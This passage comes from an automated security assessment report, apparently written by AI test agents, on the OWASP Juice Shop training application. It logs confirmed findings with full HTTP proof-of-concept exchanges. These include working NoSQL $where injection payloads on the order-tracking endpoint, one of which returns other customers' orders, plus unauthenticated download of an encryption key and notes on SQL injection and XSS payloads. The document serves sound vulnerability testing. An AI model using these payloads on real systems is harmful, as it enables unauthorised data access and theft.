- **Application screenshot:** none, no application page showing the confirmed effect was captured.

**Requests** (bold: the steps the proof rests on)

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| 5 | `GET /rest/track-order/vrf23d9a53d-nomatch` | anonymous | 200, 63 bytes |
| **6** | `GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x` | anonymous | 200, 920 bytes |
| 7 | `GET /rest/track-order/vrf23d9a53d%27%20%26%26%20%27x%27%3D%3D%27y` | anonymous | 200, 67 bytes |
| 8 | `GET /rest/track-order/vrf23d9a53d-nomatch` | anonymous | 200, 63 bytes |
| **9** | `GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x` | anonymous | 200, 920 bytes |
| 10 | `GET /rest/track-order/vrf23d9a53d%27%20%26%26%20%27x%27%3D%3D%27y` | anonymous | 200, 67 bytes |
| 14 | `GET /rest/track-order/5267-173e24c7ffc77007` | anonymous | 200, 351 bytes |
| 15 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28608908%3D%3D%3D608908%29%20%…` | anonymous | 200, 351 bytes |
| 16 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28608908%3D%3D%3D616334%29%20%…` | anonymous | 200, 98 bytes |
| 17 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28616334%21%3D%3D608908%29%20%…` | anonymous | 200, 351 bytes |
| 18 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28616334%21%3D%3D616334%29%20%…` | anonymous | 200, 98 bytes |
| 19 | `GET /rest/track-order/5267-173e24c7ffc77007` | anonymous | 200, 351 bytes |
| 20 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28608908%3D%3D%3D608908%29%20%…` | anonymous | 200, 351 bytes |
| 21 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28608908%3D%3D%3D616334%29%20%…` | anonymous | 200, 98 bytes |
| 22 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28616334%21%3D%3D608908%29%20%…` | anonymous | 200, 351 bytes |
| … | 11 more in the HAR file | | |

#### Proof of concept

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-034-b2749fff0d93b959-poc.har`.

**Normal request · step 26** (baseline input) · `GET /rest/track-order/5267-173e24c7ffc77007` as anonymous → 200, 351 bytes

```http
GET /rest/track-order/5267-173e24c7ffc77007 HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Normal request · step 31** (baseline input) · `GET /rest/track-order/5267-173e24c7ffc77007` as anonymous → 200, 351 bytes

```http
GET /rest/track-order/5267-173e24c7ffc77007 HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 27** (true condition) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D655396%29%20%…` as anonymous → 200, 351 bytes

```text
Compared with the false condition in step 28: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x" → "5267-173e24c7ffc77007"; /data/0/email: absent → "*dm*n@j**c*-sh.*p".
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D655396%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 28** (false condition) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D661429%29%20%…` as anonymous → 200, 98 bytes

```text
Compared with the normal request in step 26: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007" → "5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x"; /data/0/email: "*dm*n@j**c*-sh.*p" → absent.
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D661429%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x"}]}
```

**Attack · step 29** (true condition, second form) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D655396%29%20%…` as anonymous → 200, 351 bytes

```text
Compared with the false condition, second form in step 30: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x" → "5267-173e24c7ffc77007"; /data/0/email: absent → "*dm*n@j**c*-sh.*p".
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D655396%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 30** (false condition, second form) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D661429%29%20%…` as anonymous → 200, 98 bytes

```text
Compared with the normal request in step 26: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007" → "5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x"; /data/0/email: "*dm*n@j**c*-sh.*p" → absent.
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D661429%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x"}]}
```

**Attack · step 32** (true condition) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D655396%29%20%…` as anonymous → 200, 351 bytes

```text
Compared with the false condition in step 33: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x" → "5267-173e24c7ffc77007"; /data/0/email: absent → "*dm*n@j**c*-sh.*p".
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D655396%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 33** (false condition) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D661429%29%20%…` as anonymous → 200, 98 bytes

```text
Compared with the normal request in step 26: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007" → "5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x"; /data/0/email: "*dm*n@j**c*-sh.*p" → absent.
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D661429%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x"}]}
```

**Attack · step 34** (true condition, second form) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D655396%29%20%…` as anonymous → 200, 351 bytes

```text
Compared with the false condition, second form in step 35: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x" → "5267-173e24c7ffc77007"; /data/0/email: absent → "*dm*n@j**c*-sh.*p".
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D655396%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 35** (false condition, second form) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D661429%29%20%…` as anonymous → 200, 98 bytes

```text
Compared with the normal request in step 26: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007" → "5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x"; /data/0/email: "*dm*n@j**c*-sh.*p" → absent.
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D661429%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x"}]}
```

**Step 6** · `GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x` as anonymous → 200, 920 bytes

```http
GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"},{"orderId":"5267-4e22edc919738607","email":"*dm*n@j**c*-sh.*p","totalPrice":26.97,"bonus":3,"products":[{"quantity":3,"name":"Eggfruit Juice (500ml)","price":8.99,"total":26.97,"bonus":3}],"eta":"0","delivered":true,"_id":"h4nagernroPfFqsqo"},{"orderId":"fe01-5e9f89f06cff2ef9","email":"d*m*","totalPrice":30.92,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":5,"name":"Raspberry Juice (1000ml)","price":4.99,"total":24.950000000000003,"bonus":0}],"eta":"0","delivered":true,"_id":"BrMSQYBxkYRyHELsS"}]}
```

**Step 9** · `GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x` as anonymous → 200, 920 bytes

```http
GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"},{"orderId":"5267-4e22edc919738607","email":"*dm*n@j**c*-sh.*p","totalPrice":26.97,"bonus":3,"products":[{"quantity":3,"name":"Eggfruit Juice (500ml)","price":8.99,"total":26.97,"bonus":3}],"eta":"0","delivered":true,"_id":"h4nagernroPfFqsqo"},{"orderId":"fe01-5e9f89f06cff2ef9","email":"d*m*","totalPrice":30.92,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":5,"name":"Raspberry Juice (1000ml)","price":4.99,"total":24.950000000000003,"bonus":0}],"eta":"0","delivered":true,"_id":"BrMSQYBxkYRyHELsS"}]}
```

Cross-run key `routes/trackorder.ts|CWE-943` · files: `evidence/T-034-b2749fff0d93b959-exchanges.json`, `evidence/T-034-b2749fff0d93b959-poc.har`, `evidence/T-034-b2749fff0d93b959-nosql-injection-in-order-tracking-where-predicate-http-1.…`, `evidence/T-034-b2749fff0d93b959-nosql-injection-in-order-tracking-where-predicate-http-2.…`, `evidence/T-034-b2749fff0d93b959-nosql-injection-in-order-tracking-where-predicate-http-3.…` · [test details](#details-t-034)

### ⬜ T-034 · NoSQL injection in order tracking $where predicate — routes/trackOrder.ts:18 · variant variant-002

| Result | Severity | Weakness | In the assessment report |
| --- | --- | --- | --- |
| ⬜ **Not tested** | 🟠 High, unchanged | CWE-943 · injection | [F-034](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-034) |

**Why not confirmed:** the test agent ended without a proof the Verifier could check.

Cross-run key `routes/trackorder.ts|CWE-943`

<a id="t-058"></a>
### 🟥 T-058 · Encryption keys and logs served without authorization — server.ts:278

| Result | Severity | Weakness | Technical QA | Tested | In the assessment report |
| --- | --- | --- | --- | --- | --- |
| 🟥 **Confirmed**, medium confidence | 🟠 High, unchanged | CWE-862 · access control | clear | 2026-11-12 12:50 UTC | [F-058](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-058) |

**What the test showed:** Without a login the same answer as account-1, compared in code (`GET /encryptionkeys/premium.key`, steps 11 and 12); a random path next to it: 404 (`GET /encryptionkeys/vrf6bbb5b086970275e`, step 13).

- **Limits:** The same answer without credentials as for account-1 does not show that the function is meant for signed-in accounts only; that restriction is taken from the finding; the answers were compared in code and are not kept.
- **Application screenshot:** none, the compared answers are not shown (VER-057).

**Requests** (bold: the steps the proof rests on)

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| 2 | `GET /encryptionkeys/jwt.pub` | anonymous | 200, 248 bytes |
| 4 | `GET /encryptionkeys/jwt.pub` | account-1 | 200, 248 bytes |
| 5 | `GET /encryptionkeys/jwt.pub` | anonymous | 200, 248 bytes |
| 6 | `GET /encryptionkeys/vrf6bbb5b081502e6b2` | anonymous | 404, 1074 bytes |
| **11** | `GET /encryptionkeys/premium.key` | account-1 | 200, 50 bytes |
| **12** | `GET /encryptionkeys/premium.key` | anonymous | 200, 50 bytes |
| **13** | `GET /encryptionkeys/vrf6bbb5b086970275e` | anonymous | 404, 1074 bytes |

#### Proof of concept

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-058-poc.har`.

**Normal request · step 11** (signed-in account) · `GET /encryptionkeys/premium.key` as account-1 → 200, 50 bytes

```http
GET /encryptionkeys/premium.key HTTP/1.1
authorization: ⟦[identity account-1]⟧

HTTP/1.1 200 OK
content-type: application/octet-stream

[body not kept: compared in code only (VER-057), 50 bytes]
```

**Control · step 13** (random path next to it, without login) · `GET /encryptionkeys/vrf6bbb5b086970275e` as anonymous → 404, 1074 bytes

```http
GET /encryptionkeys/vrf6bbb5b086970275e HTTP/1.1

HTTP/1.1 404 Not Found
content-type: text/html; charset=utf-8

[body not kept: compared in code only (VER-057), 1074 bytes]
```

**Attack · step 12** (without login) · `GET /encryptionkeys/premium.key` as anonymous → 200, 50 bytes

```text
Compared with the normal request in step 11: same status 200, the identical answer, compared in code over the whole body, which is not kept.
```

```http
GET /encryptionkeys/premium.key HTTP/1.1

HTTP/1.1 200 OK
content-type: application/octet-stream

[body not kept: compared in code only (VER-057), 50 bytes]
```

Cross-run key `server.ts|CWE-862` · files: `evidence/T-058-exchanges.json`, `evidence/T-058-poc.har`, `evidence/T-058-encryption-keys-and-logs-served-without-authorization-http-1.png`, `evidence/T-058-encryption-keys-and-logs-served-without-authorization-http-2.png`, `evidence/T-058-encryption-keys-and-logs-served-without-authorization-explanation-1.png` · [test details](#details-t-058)

<a id="t-060"></a>
### 🟥 T-060 · Any authenticated user can list all user accounts — server.ts:363

| Result | Severity | Weakness | Technical QA | Tested | In the assessment report |
| --- | --- | --- | --- | --- | --- |
| 🟥 **Confirmed**, medium confidence | 🟠 High, unchanged | CWE-862 · access control | clear | 2026-11-12 12:51 UTC | [F-060](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-060) |

**What the test showed:** account-1 got the same answer as admin-1 (`GET /api/Users`, steps 7 and 8); without a login: 401 (step 9).

- **Limits:** The same answer as for admin-1 does not show that the function is meant for privileged accounts only; that restriction is taken from the finding.
- **Application screenshot:** none, no application page showing the confirmed effect was captured.

**Requests** (bold: the steps the proof rests on)

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| 2 | `GET /api/Users` | account-1 | 200, 6911 bytes |
| 3 | `GET /api/Users` | anonymous | 401, 972 bytes |
| 4 | `GET /api/vrff5aa4e6c7a151b9e` | anonymous | 500, 2448 bytes |
| **7** | `GET /api/Users` | admin-1 | 200, 6911 bytes |
| **8** | `GET /api/Users` | account-1 | 200, 6911 bytes |
| **9** | `GET /api/Users` | anonymous | 401, 972 bytes |

#### Proof of concept

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-060-poc.har`.

**Normal request · step 7** (privileged account) · `GET /api/Users` as admin-1 → 200, 6911 bytes

```http
GET /api/Users HTTP/1.1
authorization: ⟦[identity admin-1]⟧

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

Selected JSON fields (other content in HAR):
/data/0/id: 1
/data/0/role: "admin"
/data/1/id: 2
/data/1/role: "customer"
/data/2/id: 3
/data/2/role: "customer"
/data/3/id: 4
```

**Control · step 9** (without login) · `GET /api/Users` as anonymous → 401, 972 bytes

```http
GET /api/Users HTTP/1.1

HTTP/1.1 401 Unauthorized
content-type: text/html; charset=utf-8

Visible text: UnauthorizedError: No Authorization header was found OWASP Juice Shop (Express ^4.22.1) 401 UnauthorizedError: No Authorization header was found
```

**Attack · step 8** (normal account calls the privileged function) · `GET /api/Users` as account-1 → 200, 6911 bytes

```text
Compared with the normal request in step 7: same status 200, the identical answer, compared in code over the whole body.
```

```http
GET /api/Users HTTP/1.1
authorization: ⟦[identity account-1]⟧

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

Selected JSON fields (other content in HAR):
/data/0/id: 1
/data/0/role: "admin"
/data/1/id: 2
/data/1/role: "customer"
/data/2/id: 3
/data/2/role: "customer"
/data/3/id: 4
```

Cross-run key `server.ts|CWE-862` · files: `evidence/T-060-exchanges.json`, `evidence/T-060-poc.har`, `evidence/T-060-any-authenticated-user-can-list-all-user-accounts-http-1.png`, `evidence/T-060-any-authenticated-user-can-list-all-user-accounts-http-2.png`, `evidence/T-060-any-authenticated-user-can-list-all-user-accounts-explanation-1.png` · [test details](#details-t-060)

<a id="t-069"></a>
### 🟥 T-069 · User list readable by any authenticated user — routes/authenticatedUsers.ts:12

| Result | Severity | Weakness | Technical QA | Tested | In the assessment report |
| --- | --- | --- | --- | --- | --- |
| 🟥 **Confirmed**, medium confidence | 🟠 High, unchanged | CWE-862 · access control | clear | 2026-11-12 12:52 UTC | [F-069](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-069) |

**What the test showed:** account-1 got the same answer as admin-1 (`GET /rest/user/authentication-details`, steps 3 and 5); without a login: 401 (step 4).

- **Limits:** The same answer as for admin-1 does not show that the function is meant for privileged accounts only; that restriction is taken from the finding.
- **Application screenshot:** none, no application page showing the confirmed effect was captured.

**Requests** (bold: the steps the proof rests on)

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| **3** | `GET /rest/user/authentication-details` | account-1 | 200, 8953 bytes |
| **4** | `GET /rest/user/authentication-details` | anonymous | 401, 972 bytes |
| **5** | `GET /rest/user/authentication-details` | admin-1 | 200, 8953 bytes |

#### Proof of concept

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-069-poc.har`.

**Normal request · step 5** (privileged account) · `GET /rest/user/authentication-details` as admin-1 → 200, 8953 bytes

```http
GET /rest/user/authentication-details HTTP/1.1
authorization: ⟦[identity admin-1]⟧

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

Selected JSON fields (other content in HAR):
/data/0/id: 1
/data/0/role: "admin"
/data/1/id: 2
/data/1/role: "customer"
/data/2/id: 3
/data/2/role: "customer"
/data/3/id: 4
```

**Control · step 4** (without login) · `GET /rest/user/authentication-details` as anonymous → 401, 972 bytes

```http
GET /rest/user/authentication-details HTTP/1.1

HTTP/1.1 401 Unauthorized
content-type: text/html; charset=utf-8

Visible text: UnauthorizedError: No Authorization header was found OWASP Juice Shop (Express ^4.22.1) 401 UnauthorizedError: No Authorization header was found
```

**Attack · step 3** (normal account calls the privileged function) · `GET /rest/user/authentication-details` as account-1 → 200, 8953 bytes

```text
Compared with the normal request in step 5: same status 200, the identical answer, compared in code over the whole body.
```

```http
GET /rest/user/authentication-details HTTP/1.1
authorization: ⟦[identity account-1]⟧

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

Selected JSON fields (other content in HAR):
/data/0/id: 1
/data/0/role: "admin"
/data/1/id: 2
/data/1/role: "customer"
/data/2/id: 3
/data/2/role: "customer"
/data/3/id: 4
```

Cross-run key `routes/authenticatedusers.ts|CWE-862` · files: `evidence/T-069-exchanges.json`, `evidence/T-069-poc.har`, `evidence/T-069-user-list-readable-by-any-authenticated-user-http-1.png`, `evidence/T-069-user-list-readable-by-any-authenticated-user-http-2.png` · [test details](#details-t-069)

<a id="t-039"></a>
### 🟨 T-039 · Unauthenticated key and log file exposure — routes/keyServer.ts:14

| Result | Severity | Weakness | Technical QA | Tested | In the assessment report |
| --- | --- | --- | --- | --- | --- |
| 🟨 **Inconclusive** | 🟠 High, unchanged | CWE-538 · access control | not-reviewed | 2026-11-12 12:53 UTC | [F-039](../../home/mrohr/assessments/juice-shop-std3/security-assessment.md#t-039) |

**Why not confirmed:** stopped: three actions in a row failed without a usable observation; the last: plan_test: the comparison sends one concrete GET: give path as /a/b with every placeholder filled in, and query inputs in fixed.params.

Cross-run key `routes/keyserver.ts|CWE-538` · [test details](#details-t-039)

## Appendix: test details

The test agent's plan and own words and the evidence review, per finding. They are not proof: a verdict rests only on the steps the Verifier checked.

<a id="details-t-004"></a>
<details>
<summary>T-004 · variant variant-001: test plan, the test agent's explanation, evidence review</summary>

**Test plan** (assumptions are not proof)

```yaml
- step: 1
  path: /rest/products/search
  hypothesis: q is concatenated unescaped into a raw SQL LIKE clause; a quote-breaking payload alters query structure
    causing a detectable backend error vs a balanced-quote counterpart.
```

**Test agent's explanation** (not proof)

```text
The error-probe control confirmed SQL injection in the q parameter of GET /rest/products/search. An unbalanced single quote (apple') consistently triggered a backend engine error (status 500) while its balanced counterpart (apple'') returned 200 across two repetitions. Double-quote and backtick variants (not the string-delimiting character used by the backend) showed no difference, isolating the single quote as the syntactically significant character, consistent with q being concatenated unescaped into a single-quoted SQL LIKE clause as described in routes/search.ts:23. This split into two stable response classes (error vs success) based solely on quote balance, which is proof of unescaped SQL string interpolation (CWE-89), matching the finding's mechanism trace.
```

#### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
A confirmed verdict whose proof check passed is not reviewed (VER-046).
```

#### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

</details>

<details>
<summary>T-004 · variant variant-002: test plan, the test agent's explanation, evidence review</summary>

**Test agent's explanation** (not proof)

```text
not tested: another variant of this finding already confirmed it
```

</details>

<a id="details-t-001"></a>
<details>
<summary>T-001 · variant variant-003: test plan, the test agent's explanation, evidence review</summary>

**Test agent's explanation** (not proof)

```text
The q query parameter in /#/search is passed through sanitizer.bypassSecurityTrustHtml (search-result.component.ts:143) and bound via innerHTML without escaping. A crafted search URL with an img onerror payload executed the required alert('vrfff417e61'.concat('4391894e')) marker in the headless browser, confirming the Angular sanitizer bypass XSS for the search variant.
```

**Other observations** (not verified)

```text
Payload delivered via query string q parameter, reflected and trusted via bypassSecurityTrustHtml, executed in main document context.
```

#### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
A confirmed verdict whose proof check passed is not reviewed (VER-046).
```

#### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. Screenshots a model reviewed: `evidence/T-001-cb9ffdc3b619b488-angular-sanitizer-bypass-causes-xss-in-about-search.png`.

```text
Evidence text and layout checks passed; 1 screenshot reviewed.
```

</details>

<details>
<summary>T-001 · variant variant-001: test plan, the test agent's explanation, evidence review</summary>

**Test agent's explanation** (not proof)

```text
not tested: safe mode; every declared variant needs a state change
```

</details>

<details>
<summary>T-001 · variant variant-002: test plan, the test agent's explanation, evidence review</summary>

**Test agent's explanation** (not proof)

```text
not tested: safe mode; every declared variant needs a state change
```

</details>

<a id="details-t-033"></a>
<details>
<summary>T-033 · variant variant-001: test plan, the test agent's explanation, evidence review</summary>

**Test plan** (assumptions are not proof)

```yaml
- step: 3
  path: /rest/products/:id/reviews
  hypothesis: The :id path param is concatenated unquoted into a MongoDB $where clause 'this.product == ' + id,
    allowing boolean predicate injection that changes which reviews are returned.
```

**Test agent's explanation** (not proof)

```text
The :id path parameter in GET /rest/products/:id/reviews is concatenated unquoted into a MongoDB $where JavaScript predicate ('this.product == ' + id) at routes/showProductReviews.ts:36. A boolean injection experiment confirmed this: baseline id=1 returned 2 reviews. Injected predicates of the form '1 && (true-predicate)' consistently returned the same 2 reviews (matching baseline), while '1 && (false-predicate)' consistently returned an empty data array, across two repeated trials each (steps 4-13). This stable split between true/false predicate classes, with identical results on repetition, proves the server evaluates attacker-supplied JavaScript logic inside the $where clause rather than treating id as an opaque value, confirming server-side NoSQL/JS injection.
```

#### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
A confirmed verdict whose proof check passed is not reviewed (VER-046).
```

#### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

</details>

<details>
<summary>T-033 · variant variant-002: test plan, the test agent's explanation, evidence review</summary>

**Test agent's explanation** (not proof)

```text
not tested: safe mode; every declared variant needs a state change
```

</details>

<a id="details-t-034"></a>
<details>
<summary>T-034 · variant variant-001: test plan, the test agent's explanation, evidence review</summary>

**Test plan** (assumptions are not proof)

```yaml
- step: 4
  path: /rest/track-order/:id
  hypothesis: id is spliced unescaped into a $where JS string `this.orderId === '${id}'`; closing the quote and
    appending || true matches every order document (collection count >1), while a closing quote with an always-false
    tautology matches none and falls back to the single synthetic element, distinguishing true/false by presence
    of a second result element.
- step: 13
  path: /rest/track-order/:id
  hypothesis: id is spliced unescaped into the server-side JS $where predicate this.orderId === '${id}'; appending
    && {{predicate}} && 'x'=='x after a known valid orderId lets the injected predicate decide whether that order
    is returned, proving control over the JS boolean expression.
- step: 25
  path: /rest/track-order/:id
  hypothesis: id is spliced unescaped into the server-side JS $where predicate this.orderId === '${id}'; appending
    a closing quote plus && {{predicate}} && 'x'=='x after a known valid orderId lets the injected predicate decide
    whether that real order document (with its email field) is returned, versus the synthetic fallback object lacking
    an email field.
```

**Test agent's explanation** (not proof)

```text
The id parameter in GET /rest/track-order/:id is spliced unescaped into the server-side $where JS predicate this.orderId === '${id}'. Using a known valid orderId, appending a closing quote plus an injected boolean sub-expression and re-closing the string (e.g. '5267-173e24c7ffc77007' && (655396===655396) && 'x'=='x') caused the predicate to still evaluate true and return the full real order document (including the masked email field), while the complementary false sub-expression (655396===661429) suppressed the match and returned only the synthetic fallback object lacking the email field. This true/false split was reproduced twice with both the === and !== predicate forms, confirming genuine control over the server-side JavaScript boolean expression rather than mere reflection. This demonstrates the injection primitive described in the finding: attacker-controlled boolean logic inside the $where predicate, which (as shown earlier in steps 6/9 with an OR-based tautology) also lets an attacker broaden matching to other customers' orders.
```

**Other observations** (not verified)

```text
